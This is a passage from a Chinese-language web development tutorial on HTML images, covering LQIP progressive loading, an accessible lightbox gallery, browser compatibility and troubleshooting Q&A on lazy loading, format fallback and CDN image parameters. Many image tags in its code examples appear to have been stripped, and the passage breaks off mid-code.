- 支持任意尺寸缩放
- 添加 `aria-hidden="true"` 提升可访问性
- 语义化使用，配合文本标签

### 案例 6：渐进式图像加载（LQIP）

渐进式图像加载（Progressive Image Loading）使用**低质量图像占位符（LQIP, Low-Quality Image Placeholder）**技术：先加载一个极小的模糊预览图（通常 20-50px 宽度的 Base64 内联图或极小 WebP），然后在高清图加载完成后平滑过渡。这种技术被 Medium、Unsplash 等网站广泛采用。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>渐进式图像加载 - LQIP</title>
    <style>
      .progressive-image {
        position: relative;
        display: block;
        overflow: hidden;
        background-color: #f0f0f0;
      }

      /* LQIP 占位图：拉伸填满容器 */
      .progressive-image .lqip {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        object-fit: cover;
        filter: blur(20px); /* 关键：高斯模糊 */
        transform: scale(1.05); /* 防止模糊边缘露白 */
        opacity: 1;
        transition: opacity 0.4s ease-out;
      }

      /* 高清目标图：初始隐藏 */
      .progressive-image .target {
        position: relative;
        width: 100%;
        height: auto;
        display: block;
        opacity: 0;
        transition: opacity 0.5s ease-in;
      }

      /* 高清图加载完成：淡入并覆盖模糊占位 */
      .progressive-image.loaded .lqip {
        opacity: 0;
      }
      .progressive-image.loaded .target {
        opacity: 1;
      }

      /* 骨架屏：在 LQIP 加载前显示 */
      .progressive-image::before {
        content: "";
        display: block;
        padding-bottom: 56.25%; /* 16:9 宽高比占位 */
      }
      .progressive-image .lqip,
      .progressive-image .target {
        margin-top: -56.25%;
      }

      /* 加载进度指示器 */
      .progress-indicator {
        position: absolute;
        bottom: 12px;
        left: 50%;
        transform: translateX(-50%);
        background: rgba(0, 0, 0, 0.6);
        color: white;
        padding: 4px 12px;
        border-radius: 12px;
        font-size: 12px;
        z-index: 2;
        opacity: 0;
        transition: opacity 0.3s;
      }
      .progressive-image.loading .progress-indicator {
        opacity: 1;
      }

      /* 文章布局示例 */
      .article-content {
        max-width: 800px;
        margin: 0 auto;
        padding: 20px;
      }
    </style>
  </head>
  <body>
    <article class="article-content">
      <h1>探索宇宙的奥秘</h1>
      <p>宇宙是人类永恒的谜题，从古老的仰望星空到现代的深空探测...</p>

      <!-- 渐进式图像加载组件 -->
      <figure class="progressive-image" style="max-width: 800px;">
        <!-- 极小的 Base64 内联 LQIP（约 500B-2KB） -->
        

        <!-- 高清目标图 -->
        

        <span class="progress-indicator">正在加载高清图片...</span>

        <figcaption style="margin-top: 8px; font-size: 14px; color: #666; text-align: center;">
          哈勃望远镜拍摄的深空图像（图片来源：NASA）
        </figcaption>
      </figure>

      <p>这些星系距离我们数十亿光年，每一个都包含数千亿颗恒星...</p>
    </article>

    <script>
      /**
       * 渐进式图像加载管理器
       * 负责监听高清图加载状态并触发过渡动画
       */
      class ProgressiveImageLoader {
        constructor() {
          this.init()
        }

        init() {
          // 查找所有渐进式图像容器
          const containers = document.querySelectorAll('.progressive-image')
          containers.forEach((container) => this.setupImage(container))
        }

        setupImage(container) {
          const targetImg = container.querySelector('.target')
          if (!targetImg) return

          // 标记为加载中
          container.classList.add('loading')

          // 如果图片已被浏览器缓存（complete），立即切换
          if (targetImg.complete && targetImg.naturalWidth > 0) {
            this.reveal(container)
            return
          }

          // 监听高清图加载完成事件
          targetImg.addEventListener('load', () => this.reveal(container))
          targetImg.addEventListener('error', () => {
            // 高清图加载失败时保留 LQIP 显示
            container.classList.remove('loading')
            console.warn('高清图加载失败:', targetImg.src)
          })
        }

        reveal(container) {
          container.classList.remove('loading')
          // 使用 requestAnimationFrame 确保 CSS 过渡生效
          requestAnimationFrame(() => {
            requestAnimationFrame(() => {
              container.classList.add('loaded')
            })
          })
        }
      }

      // 页面加载完成后初始化
      document.addEventListener('DOMContentLoaded', () => {
        new ProgressiveImageLoader()
      })
    </script>
  </body>
</html>
```

**LQIP 生成方式：**

| 方案 | 大小 | 质量 | 适用场景 | 生成工具 |
|------|------|------|----------|----------|
| **Base64 内联** | 500B-2KB | 低 | 首屏关键图 | sharp/blurhash |
| **极小 WebP 外链** | 1-3KB | 中 | 内容图 | cwebp + resize |
| **BlurHash 字符串** | 20-50 bytes | 编码 | 数据驱动 | blurhash 库 |
| **CSS 渐变色** | ~100 bytes | 近似 | 简单背景 | 主色提取 |

```bash
# 使用 sharp 生成 LQIP（Node.js / CLI）
npx sharp-cli -i photo.jpg -o lqip.webp \
  --resize 32 --webp-quality 30 --blur 3

# 或使用 Node.js API
const sharp = require('sharp')
const fs = require('fs')

async function generateLQIP(inputPath) {
  const buffer = await sharp(inputPath)
    .resize(32, null, { withoutEnlargement: true }) // 缩放到宽 32px
    .webp({ quality: 30 })                          // 极低质量
    .toBuffer()
  return `data:image/webp;base64,${buffer.toString('base64')}`
}
```

### 案例 7：图像灯箱 / 画廊组件（Lightbox Gallery）

一个功能完整的灯箱组件需要支持键盘导航、触摸手势、无障碍访问、预加载等特性：

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>图像灯箱画廊</title>
    <style>
      /* ===== 缩略图画廊网格 ===== */
      .gallery-grid {
        display: grid;
        grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
        gap: 16px;
        max-width: 1200px;
        margin: 0 auto;
        padding: 20px;
      }

      .gallery-thumb {
        aspect-ratio: 1;
        overflow: hidden;
        border-radius: 8px;
        cursor: pointer;
        background-color: #f0f0f0;
        position: relative;
      }

      .gallery-thumb img {
        width: 100%;
        height: 100%;
        object-fit: cover;
        transition: transform 0.3s ease;
      }

      .gallery-thumb:hover img {
        transform: scale(1.06);
      }

      .gallery-thumb:focus-visible {
        outline: 3px solid #1890ff;
        outline-offset: 2px;
      }

      /* ===== 灯箱遮罩层 ===== */
      .lightbox-overlay {
        position: fixed;
        inset: 0;
        z-index: 9999;
        background: rgba(0, 0, 0, 0.92);
        display: none; /* 默认隐藏 */
        align-items: center;
        justify-content: center;
        flex-direction: column;
        opacity: 0;
        transition: opacity 0.25s ease;
      }

      .lightbox-overlay.active {
        display: flex;
        /* opacity 过渡需配合 JS 在下一帧设置，或改用 @starting-style */
        opacity: 1;
      }

      /* ===== 灯箱主图区域 ===== */
      .lightbox-container {
        position: relative;
        max-width: 90vw;
        max-height: 85vh;
        display: flex;
        align-items: center;
        justify-content: center;
      }

      .lightbox-image {
        max-width: 90vw;
        max-height: 85vh;
        object-fit: contain;
        border-radius: 4px;
        user-select: none;
        -webkit-user-drag: none;
        transition: opacity 0.3s ease;
      }

      .lightbox-image.loading {
        opacity: 0.5;
      }

      /* ===== 导航按钮 ===== */
      .lightbox-nav {
        position: absolute;
        top: 50%;
        transform: translateY(-50%);
        width: 48px;
        height: 48px;
        border: none;
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.15);
        color: white;
        font-size: 24px;
        cursor: pointer;
        display: flex;
        align-items: center;
        justify-content: center;
        transition: background 0.2s;
        z-index: 10;
      }

      .lightbox-nav:hover,
      .lightbox-nav:focus-visible {
        background: rgba(255, 255, 255, 0.3);
        outline: none;
      }

      .lightbox-prev { left: -24px; }
      .lightbox-next { right: -24px; }

      @media (max-width: 768px) {
        .lightbox-prev { left: 8px; }
        .lightbox-next { right: 8px; }
      }

      /* ===== 关闭按钮 ===== */
      .lightbox-close {
        position: absolute;
        top: 16px;
        right: 16px;
        width: 44px;
        height: 44px;
        border: none;
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.15);
        color: white;
        font-size: 28px;
        cursor: pointer;
        display: flex;
        align-items: center;
        justify-content: center;
        transition: background 0.2s;
        z-index: 10;
      }

      .lightbox-close:hover,
      .lightbox-close:focus-visible {
        background: rgba(255, 255, 255, 0.3);
        outline: none;
      }

      /* ===== 底部信息栏 ===== */
      .lightbox-footer {
        position: absolute;
        bottom: 0;
        left: 0;
        right: 0;
        padding: 16px 24px;
        display: flex;
        align-items: center;
        justify-content: space-between;
        color: rgba(255, 255, 255, 0.85);
        font-size: 14px;
        pointer-events: none;
      }

      .lightbox-counter {
        background: rgba(0, 0, 0, 0.5);
        padding: 4px 12px;
        border-radius: 12px;
      }

      /* ===== 缩略图导航条 ===== */
      .lightbox-thumbs {
        display: flex;
        gap: 8px;
        padding: 12px;
        justify-content: center;
        max-width: 90vw;
        overflow-x: auto;
      }

      .lightbox-thumb {
        width: 48px;
        height: 48px;
        border-radius: 4px;
        object-fit: cover;
        cursor: pointer;
        opacity: 0.5;
        border: 2px solid transparent;
        transition: all 0.2s;
        flex-shrink: 0;
      }

      .lightbox-thumb:hover {
        opacity: 0.8;
      }

      .lightbox-thumb.active {
        opacity: 1;
        border-color: #1890ff;
      }

      /* ===== 全屏按钮 ===== */
      .lightbox-fullscreen {
        position: absolute;
        top: 16px;
        right: 70px;
        width: 40px;
        height: 40px;
        border: none;
        border-radius: 50%;
        background: rgba(255, 255, 255, 0.15);
        color: white;
        font-size: 18px;
        cursor: pointer;
        display: flex;
        align-items: center;
        justify-content: center;
        transition: background 0.2s;
      }

      .lightbox-fullscreen:hover {
        background: rgba(255, 255, 255, 0.3);
      }

      /* ===== 加载动画 ===== */
      .lightbox-spinner {
        position: absolute;
        width: 40px;
        height: 40px;
        border: 3px solid rgba(255, 255, 255, 0.2);
        border-top-color: white;
        border-radius: 50%;
        animation: spin 0.8s linear infinite;
        display: none;
      }

      .lightbox-spinner.visible {
        display: block;
      }

      @keyframes spin {
        to { transform: rotate(360deg); }
      }

      /* 无障碍：隐藏但可聚焦的跳转链接 */
      .sr-only {
        position: absolute;
        width: 1px;
        height: 1px;
        padding: 0;
        margin: -1px;
        overflow: hidden;
        clip: rect(0, 0, 0, 0);
        white-space: nowrap;
        border: 0;
      }
    </style>
  </head>
  <body>
    <h2 style="text-align: center; padding: 20px;">🖼️ 图像画廊</h2>

    <!-- 缩略图画廊 -->
    <div class="gallery-grid" role="list" aria-label="图像画廊">
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
      <div class="gallery-thumb" role="listitem">
        
      </div>
    </div>

    <!-- ===== 灯箱组件 ===== -->
    <div
      class="lightbox-overlay"
      id="lightbox"
      role="dialog"
      aria-modal="true"
      aria-label="图像灯箱查看器"
      aria-hidden="true">

      <!-- 关闭按钮 -->
      <button
        class="lightbox-close"
        id="lb-close"
        aria-label="关闭灯箱（Esc）">&times;</button>

      <!-- 全屏按钮 -->
      <button
        class="lightbox-fullscreen"
        id="lb-fs"
        aria-label="切换全屏">⛶</button>

      <!-- 主图容器 -->
      <div class="lightbox-container">
        <!-- 上一张 -->
        <button class="lightbox-nav lightbox-prev" id="lb-prev" aria-label="上一张图片（←）">‹</button>

        <!-- 图片 -->
        

        <!-- 加载指示器 -->
        <div class="lightbox-spinner" id="lb-spinner"></div>

        <!-- 下一张 -->
        <button class="lightbox-nav lightbox-next" id="lb-next" aria-label="下一张图片（→）">›</button>
      </div>

      <!-- 底部信息栏 -->
      <div class="lightbox-footer">
        <span class="lightbox-counter" id="lb-counter">1 / 6</span>
        <span id="lb-caption"></span>
      </div>

      <!-- 缩略图导航条 -->
      <div class="lightbox-thumbs" id="lb-thumbs" role="tablist" aria-label="缩略图导航"></div>
    </div>

    <script>
      /**
       * LightboxGallery — 图像灯箱画廊组件
       *
       * 功能：
       * - 键盘导航（← → Esc Enter）
       * - 触摸手势滑动（移动端）
       * - ARIA 无障碍完整支持
       * - 缩略图导航条
       * - 全屏模式
       * - 相邻图片预加载
       * - 平滑过渡动画
       */
      class LightboxGallery {
        constructor(options = {}) {
          // 配置项
          this.thumbSelector = options.thumbSelector || '.gallery-thumb img'
          this.overlaySelector = options.overlaySelector || '#lightbox'

          // 状态
          this.images = []         // 所有图片数据
          this.currentIndex = 0     // 当前索引
          this.isOpen = false       // 是否打开
          this.touchStartX = 0      // 触摸起始 X
          this.touchEndX = 0        // 触摸结束 X
          this.preloadDistance = 1  // 预加载范围

          // DOM 引用
          this.overlay = null
          this.imageEl = null
          this.counterEl = null
          this.captionEl = null
          this.thumbsContainer = null
          this.spinnerEl = null

          this.init()
        }

        init() {
          // 获取 DOM 元素
          this.overlay = document.querySelector(this.overlaySelector)
          this.imageEl = document.getElementById('lb-img')
          this.counterEl = document.getElementById('lb-counter')
          this.captionEl = document.getElementById('lb-caption')
          this.thumbsContainer = document.getElementById('lb-thumbs')
          this.spinnerEl = document.getElementById('lb-spinner')

          // 收集图片数据
          this.collectImages()

          // 绑定事件
          this.bindEvents()
        }

        /** 收集缩略图数据 */
        collectImages() {
          const thumbs = document.querySelectorAll(this.thumbSelector)
          thumbs.forEach((thumb, index) => {
            this.images.push({
              thumb: thumb.src,
              full: thumb.dataset.full || thumb.src.replace('thumb-', 'full-'),
              alt: thumb.alt || `图片 ${index + 1}`,
              element: thumb
            })
          })

          // 生成底部缩略图导航
          this.renderThumbNav()
        }

        /** 渲染底部缩略图导航条 */
        renderThumbNav() {
          this.thumbsContainer.innerHTML = this.images.map((img, i) =>
            ``
          ).join('')
        }

        /** 绑定所有交互事件 */
        bindEvents() {
          // 缩略图点击打开灯箱
          document.querySelectorAll(this.thumbSelector).forEach((thumb, index) => {
            thumb.addEventListener('click', () => this.open(index))
            thumb.addEventListener('keydown', (e) => {
              if (e.key === 'Enter' || e.key === ' ') {
                e.preventDefault()
                this.open(index)
              }
            })
          })

          // 关闭按钮
          document.getElementById('lb-close').addEventListener('click', () => this.close())

          // 导航按钮
          document.getElementById('lb-prev').addEventListener('click', () => this.prev())
          document.getElementById('lb-next').addEventListener('click', () => this.next())

          // 全屏按钮
          document.getElementById('lb-fs').addEventListener('click', () => this.toggleFullscreen())

          // 点击遮罩关闭
          this.overlay.addEventListener('click', (e) => {
            if (e.target === this.overlay) this.close()
          })

          // 底部缩略图点击
          this.thumbsContainer.addEventListener('click', (e) => {
            if (e.target.classList.contains('lightbox-thumb')) {
              this.goTo(parseInt(e.target.dataset.index))
            }
          })

          // 键盘导航
          document.addEventListener('keydown', (e) => {
            if (!this.isOpen) return
            switch (e.key) {
              case 'ArrowLeft':  this.prev(); break
              case 'ArrowRight': this.next(); break
              case 'Escape':     this.close(); break
            }
          })

          // 触摸手势支持
          this.overlay.addEventListener('touchstart', (e) => {
            this.touchStartX = e.changedTouches[0].screenX
          }, { passive: true })

          this.overlay.addEventListener('touchend', (e) => {
            this.touchEndX = e.changedTouches[0].screenX
            this.handleSwipe()
          }, { passive: true })
        }

        /** 处理触摸滑动 */
        handleSwipe() {
          const threshold = 50 // 最小滑动距离
          const diff = this.touchStartX - this.touchEndX
          if (Math.abs(diff) > threshold) {
            if (diff > 0) this.next()   // 向左滑 → 下一张
            else        this.prev()     // 向右滑 → 上一张
          }
        }

        /** 打开灯箱 */
        open(index) {
          this.currentIndex = index
          this.isOpen = true
          this.overlay.classList.add('active')
          this.overlay.setAttribute('aria-hidden', 'false')
          document.body.style.overflow = 'hidden' // 防止背景滚动

          this.showImage(index)
          this.preloadAdjacent()

          // 聚焦到关闭按钮，确保键盘用户可以操作
          document.getElementById('lb-close').focus()
        }

        /** 关闭灯箱 */
        close() {
          this.isOpen = false
          this.overlay.classList.remove('active')
          this.overlay.setAttribute('aria-hidden', 'true')
          document.body.style.overflow = ''

          // 返回焦点到触发的缩略图
          const triggerThumb = this.images[this.currentIndex]?.element
          if (triggerThumb) triggerThumb.focus()
        }

        /** 显示指定索引的图片 */
        showImage(index) {
          const img = this.images[index]
          if (!img) return

          this.currentIndex = index

          // 显示加载状态
          this.imageEl.classList.add('loading')
          this.spinnerEl.classList.add('visible')

          // 更新图片源
          this.imageEl.src = img.full
          this.imageEl.alt = img.alt

          // 更新计数器和说明文字
          this.counterEl.textContent = `${index + 1} / ${this.images.length}`
          this.captionEl.textContent = img.alt

          // 更新缩略图激活状态
          this.thumbsContainer.querySelectorAll('.lightbox-thumb').forEach((t, i) => {
            t.classList.toggle('active', i === index)
            t.setAttribute('aria-selected', i === index)
          })

          // 图片加载完成回调
          const onLoad = () => {
            this.imageEl.classList.remove('loading')
            this.spinnerEl.classList.remove('visible')
            this.imageEl.removeEventListener('load', onLoad)
            this.imageEl.removeEventListener('error', onError)
          }
          const onError = () => {
            this.imageEl.classList.remove('loading')
            this.spinnerEl.classList.remove('visible')
            this.imageEl.alt = '（图片加载失败）'
            this.imageEl.removeEventListener('load', onLoad)
            this.imageEl.removeEventListener('error', onError)
          }
          this.imageEl.addEventListener('load', onLoad)
          this.imageEl.addEventListener('error', onError)
        }

        /** 切换到上一张 */
        prev() {
          const newIndex = (this.currentIndex - 1 + this.images.length) % this.images.length
          this.showImage(newIndex)
          this.preloadAdjacent()
        }

        /** 切换到下一张 */
        next() {
          const newIndex = (this.currentIndex + 1) % this.images.length
          this.showImage(newIndex)
          this.preloadAdjacent()
        }

        /** 跳转到指定索引 */
        goTo(index) {
          if (index >= 0 && index < this.images.length) {
            this.showImage(index)
            this.preloadAdjacent()
          }
        }

        /** 预加载相邻图片 */
        preloadAdjacent() {
          const indices = [
            (this.currentIndex - 1 + this.images.length) % this.images.length,
            (this.currentIndex + 1) % this.images.length
          ]
          indices.forEach(i => {
            const link = document.createElement('link')
            link.rel = 'preload'
            link.as = 'image'
            link.href = this.images[i].full
            document.head.appendChild(link)
          })
        }

        /** 切换全屏模式 */
        toggleFullscreen() {
          if (!document.fullscreenElement) {
            this.overlay.requestFullscreen?.().catch(() => {})
          } else {
            document.exitFullscreen?.()
          }
        }
      }

      // 初始化灯箱
      document.addEventListener('DOMContentLoaded', () => {
        new LightboxGallery()
      })
    </script>
  </body>
</html>
```

**灯箱组件核心功能一览：**

| 功能 | 实现方式 | 说明 |
|------|----------|------|
| 键盘导航 | `keydown` 事件监听 ← → Esc | 符合 WCAG 2.1 键盘可操作性要求 |
| 触摸手势 | `touchstart`/`touchend` 计算位移差 | 移动端滑动切换，阈值 50px |
| ARIA 无障碍 | `role="dialog"` / `aria-modal` / `aria-label` | 屏幕阅读器友好 |
| 焦点管理 | 打开时聚焦关闭按钮，关闭时返回触发元素 | 防止焦点丢失（Focus Trap） |
| 图片预加载 | `<link rel="preload">` 动态插入相邻图片 | 切换时几乎无等待 |
| 全屏模式 | Fullscreen API (`requestFullscreen`) | 沉浸式浏览体验 |

## 浏览器兼容性

大多数基础图像特性在现代浏览器中都能很好地工作，但新特性和新格式需要考虑回退策略。

| 特性              | 支持情况概述                                      | 兼容性建议                            |
| ----------------- | ------------------------------------------------- | ------------------------------------- |
| 基本 `` 属性 | 所有主流浏览器，包括较旧版本                      | 可放心使用                            |
| `srcset`/`sizes`  | 现代浏览器普遍支持，老旧浏览器会退化为使用 `src`  | 总是提供合理的 `src` 作为回退         |
| `<picture>`       | 现代浏览器支持，IE 等旧浏览器忽略 `<source>` 元素 | 在 `<picture>` 中提供兼容的 ``   |
| `loading`         | 现代 Chromium 浏览器和新版本 Firefox/Safari 支持  | 旧浏览器会忽略该属性，行为等同未设置  |
| `decoding`        | 现代浏览器广泛支持                                | 不支持的浏览器会忽略该属性            |
| `fetchpriority`   | 目前主要由 Chromium 内核实现                      | 按渐进增强使用，避免依赖其行为        |
| WebP/AVIF 格式    | 新版浏览器支持良好，旧版浏览器可能不支持          | 通过 `<picture>` 提供 JPEG 等回退格式 |

实践中可以遵循以下原则：

- 优先保证在所有浏览器中都能看到内容，再利用新特性渐进增强
- 对关键页面在真实设备和多种浏览器上进行验证，尤其是移动端
- 通过统计工具观察图片加载错误率，及时发现兼容性问题

## 常见问题解答（Q&A）

### 问题 1：图像不显示

**可能原因：**

1. 路径错误
2. 图像文件不存在
3. 文件权限问题
4. CORS 跨域问题

**解决方案：**

```html
<!-- 检查路径 -->

<!-- 或 -->


<!-- 检查控制台错误信息 -->
<!-- 使用开发者工具 Network 标签检查请求状态 -->
```

### 问题 2：图像变形

**原因：** 只设置了宽度或高度，没有保持宽高比

**解决方案：**

```html
<!-- ✅ 正确：使用 CSS 保持宽高比 -->


<!-- ✅ 或设置宽高属性 -->

```

### 问题 3：响应式图像不工作

**检查清单：**

1. 确认 `srcset` 格式正确
2. 确认 `sizes` 属性设置正确
3. 检查浏览器是否支持
4. 验证图像文件是否存在

```html
<!-- ✅ 正确的格式 -->

```

### 问题 4：懒加载不工作

**可能原因：**

1. 浏览器不支持（旧浏览器）
2. 图像在视口内（会立即加载）
3. 使用了 `loading="eager"`

**解决方案：**

```html
<!-- 确保图像在视口外 -->


<!-- 添加 polyfill（如果需要支持旧浏览器） -->
<script src="https://cdn.jsdelivr.net/npm/loading-attribute-polyfill@2.0.1/dist/loading-attribute-polyfill.min.js"></script>
```

### 问题 5：图像加载慢

**优化方案：**

1. 使用懒加载
2. 优化图像格式（WebP、AVIF）
3. 压缩图像文件
4. 使用 CDN
5. 设置合适的缓存策略

```html
<!-- 使用现代格式 -->
<picture>
  <source type="image/avif" srcset="image.avif" />
  <source type="image/webp" srcset="image.webp" />
  
</picture>
```

### 问题 6：图像热区在移动端不工作

**原因：** 移动端触摸区域可能太小

**解决方案：**

1. 增大热区面积（至少 44x44px）
2. 提供备用链接
3. 考虑使用按钮替代

```html
<!-- 确保热区足够大 -->
<area shape="rect" coords="0,0,100,100" href="/link" alt="链接" />
```

### 问题 7：WebP / AVIF 兼容性回退方案？

**背景：** WebP 和 AVIF 在旧版浏览器中不支持，需要提供回退方案。

**方案 1：`<picture>` + `<source>` 类型检测（推荐）**

```html
<!-- ✅ 推荐：浏览器自动选择支持的格式 -->
<picture>
  <source type="image/avif" srcset="photo.avif" />
  <source type="image/webp" srcset="photo.webp" />
  
</picture>
```

**方案 2：服务端内容协商（Accept 头检测）**

```nginx
# Nginx 根据请求头 Accept 自动返回最佳格式
map $http_accept $image_ext {
    default                  jpg;
    "~*image/avif"          avif;
    "~*image/webp(?!,.*image/avif)" webp;
}

# 使用示例：请求 /images/photo 自动匹配 photo.avif / photo.webp / photo.jpg
location ~* ^/images/(.+)$ {
    add_header Vary Accept;
    try_files /images/$1.$image_ext =404;
}
```

**方案 3：JavaScript 特性检测**

```javascript
// 检测浏览器是否支持 AVIF（用极小的 AVIF 测试图尝试解码）
async function supportsAvif() {
  if (!createImageBitmap) return false

  // 1×1 像素的合法 AVIF 测试图（社区通用的特性检测数据）
  const avifData =
    ''

  const blob = await fetch(avifData).then(r => r.blob())
  return createImageBitmap(blob).then(() => true, () => false)
}

// 使用示例
const supportsAVIF = await supportsAvif()
const imageSrc = supportsAVIF ? 'photo.avif' : 'photo.webp'
```

::: tip 推荐策略
**优先使用 `<picture>` 方案**，零 JavaScript、零服务端配置、浏览器原生支持。
:::

### 问题 8：`srcset` vs `picture` 如何选择？

| 场景 | 推荐方案 | 原因 |
|------|---------|------|
| 同一图片不同分辨率（Retina 适配） | `srcset` + `sizes` | 代码简洁，浏览器自动选择 |
| 不同设备显示不同裁剪（艺术指导） | `<picture>` + `media` | 可按媒体查询切换不同图片 |
| 格式回退（AVIF → WebP → JPEG） | `<picture>` + `type` | 浏览器按 MIME 类型自动匹配 |
| 深色模式适配 | `<picture>` + `prefers-color-scheme` | 需要媒体查询条件 |
| 简单响应式缩放图 | `srcset` + `w` 描述符 | 最轻量的实现方式 |

```html
<!-- ✅ 场景 A：仅需要分辨率适配 → 用 srcset -->


<!-- ✅ 场景 B：需要格式回退 + 艺术指导 → 用 picture -->
<picture>
  <!-- 移动端竖屏裁剪 + AVIF -->
  <source media="(max-width: 600px)"
          type="image/avif"
          srcset="hero-mobile-crop.avif" />
  <!-- 移动端竖屏裁剪 + WebP 回退 -->
  <source media="(max-width: 600px)"
          type="image/webp"
          srcset="hero-mobile-crop.webp" />
  <!-- 桌面端 + AVIF -->
  <source type="image/avif" srcset="hero-desktop.avif" />
  <!-- 桌面端 + WebP 回退 -->
  <source type="image/webp" srcset="hero-desktop.webp" />
  <!-- 最终回退 JPEG -->
  
</picture>
```

### 问题 9：`loading="lazy"` 不生效怎么办？

**可能原因及排查步骤：**

```javascript
/**
 * LazyLoadDebugger — loading=lazy 不生效诊断工具
 */
function debugLazyLoading() {
  const lazyImages = document.querySelectorAll('img[loading="lazy"]')
  
  console.group('🔍 Lazy Loading Debug Report')
  console.log(`Found ${lazyImages.length} images with loading="lazy"`)

  lazyImages.forEach((img, i) => {
    const issues = []

    // 检查 1：图片是否已在视口内
    const rect = img.getBoundingClientRect()
    if (rect.top >= 0 && rect.bottom <= window.innerHeight) {
      issues.push('⚠️ 图像已在视口内，lazy 无效（会立即加载）')
    }

    // 检查 2：CSS display:none 的祖先元素
    let el = img.parentElement
    while (el && el !== document.body) {
      if (getComputedStyle(el).display === 'none') {
        issues.push('⚠️ 存在 display:none 的祖先元素')
        break
      }
      el = el.parentElement
    }

    // 检查 3：浏览器支持情况
    if (!('loading' in HTMLImageElement.prototype)) {
      issues.push('❌ 当前浏览器不支持 native lazy loading')
    }

    // 检查 4：图片尺寸为 0
    if (img.width === 0 || img.height === 0) {
      issues.push('⚠️ 图像 width 或 height 为 0')
    }

    // 输出诊断结果
    console.log(`[${i + 1}] ${img.src?.slice(-50)}${issues.length ? '' : ' ✅ 正常'}`)
    issues.forEach(issue => console.log(`   ${issue}`))
  })

  console.groupEnd()
}

// 运行诊断
debugLazyLoading()
```

**常见原因与解决方案：**

| 原因 | 现象 | 解决方案 |
|------|------|---------|
| **图片在首屏视口内** | 图片立即加载 | 首屏图像使用 `loading="eager"` |
| **CSS `display: none` 祖先** | 不触发加载 | 改用 IntersectionObserver |
| **浏览器版本过旧** | 属性被忽略 | 引入 polyfill 脚本 |
| **图片尺寸为 0** | 无法计算距离 | 设置 `width`/`height` 属性 |
| **嵌套在 `overflow: auto` 容器内** | 部分浏览器不触发 | 使用 IntersectionObserver 替代 |

**Polyfill 兜底方案：**

```html
<!-- 仅对不支持的浏览器加载 polyfill -->
<script>
  if (!('loading' in HTMLImageElement.prototype)) {
    const script = document.createElement('script')
    script.src = 'https://cdn.jsdelivr.net/npm/loading-attribute-polyfill@2.0.1/dist/loading-attribute-polyfill.min.js'
    document.head.appendChild(script)
  }
</script>
```

### 问题 10：CDN 图像处理如何选择参数？

现代 CDN（阿里云 OSS、Cloudinary、Imgix 等）支持 URL 参数实时处理图像。合理选择参数可以在**质量与体积间取得最优平衡**。

#### 常见 CDN 参数对照表

| 操作 | 阿里云 OSS | Cloudinary | Imgix | 效果 |
|------|-----------|------------|-------|------|
| **缩放宽度** | `/resize,w_400` | `w_400` | `w=400` | 缩放到 400px 宽 |
| **裁剪填充** | `/crop,w_400,h_300,g_center` | `c_fill,w_400,h_300` | `fit=crop&w=400&h=300` | 居中裁剪填满 |
| **质量** | `/quality,q_80` | `q_80` | `q=80` | 质量 80% |
| **格式转换** | `/format,webp` | `f_webp` | `fmt=webp` | 转 WebP |
| **自动格式** | — | `f_auto` | `auto=format` | 自动选最优格式 |
| **自动质量** | — | `q_auto` | `auto=compress` | 智能压缩 |
| **锐化** | `/sharpen,100` | `e_sharpen:100` | `sharp=10` | 锐化增强 |

#### 最佳实践 URL 构建器

```javascript
/**
 * CDNUriBuilder — 智能图像 URL 构建器
 *
 * 根据设备和网络状况自动生成最优 CDN 图像 URL
 */
class CDNUriBuilder {
  constructor(options = {}) {
    this.cdnBase = options.cdnBase || 'https://cdn.example.com'
    this.provider = options.provider || 'aliyun' // aliyun | cloudinary | imgix
    this.defaultQuality = options.quality || 75
  }

  /**
   * 构建响应式图像 URL
   * @param {string} imagePath - 相对于 CDN 根目录的路径
   * @param {object} params - 处理参数
   * @returns {string} 完整的 CDN URL
   */
  build(imagePath, params = {}) {
    const {
      width,
      height,
      quality = this.defaultQuality,
      format = null,           // null = auto
      crop = 'limit',          // limit | fill | pad
      dpr = window.devicePixelRatio || 1,
      enableWebP = true,
    } = params

    switch (this.provider) {
      case 'aliyun':
        return this._buildAliyun(imagePath, { width, height, quality, format, crop, dpr, enableWebP })
      
      case 'cloudinary':
        return this._buildCloudinary(imagePath, { width, height, quality, format, crop, dpr })
      
      case 'imgix':
        return this._buildImgix(imagePath, { width, height, quality, format, crop, dpr })
      
      default:
        return `${this.cdnBase}/${imagePath}`
    }
  }

  _buildAliyun(path, p) {
    const w = Math.round(p.width * p.dpr)
    const h = p.height ? Math.round(p.height * p.dpr) : undefined
    
    let process = []
    
    if (w) process.push(`resize,w_${w}${h ? `,h_${h}` : ''}`)
    
    // 自动 WebP（通过 Accept 头协商）
    if (p.enableWebP) process.push('format,webp')
    
    process.push(`quality,q_${p.quality}`)

    return `${this.cdnBase}/${path}?x-oss-process=${process.join('/')}`
  }

  _buildCloudinary(path, p) {
    const w = Math.round(p.width * p.dpr)
    const h = p.height ? Math.round(p.height * p.dpr) : undefined

    const transforms = [
      `c_${p.crop}`,
      w ? `w_${w}` : '',
      h ? `h_${h}` : '',
      `dpr_${p.dpr}`,
      p.format === null ? 'f_auto' : `f_${p.format}`,
      'q_auto:good',
    ].filter(Boolean)

    return `${this.cdnBase}/image/upload/${transforms.join(',')}/${path}`
  }
}

// ===== 使用示例 =====

const cdn = new CDNUriBuilder({
  cdnBase: 'https://your-bucket.oss-cn-beijing.aliyuncs.com',
  provider: 'aliyun',
})

// 商品列表缩略图（自动适配 DPR）
const thumbUrl = cdn.build('products/shoe-001.jpg', {
  width: 300,
  height: 300,
  crop: 'fill',       // 居中裁剪
})
// → https://.../shoe-001.jpg?x-oss-process=resize,w_600,h_600/format,webp/quality,q_75

// 文章配图（自适应宽度）
const articleUrl = cdn.build('blog/post-cover.jpg', {
  width: 800,
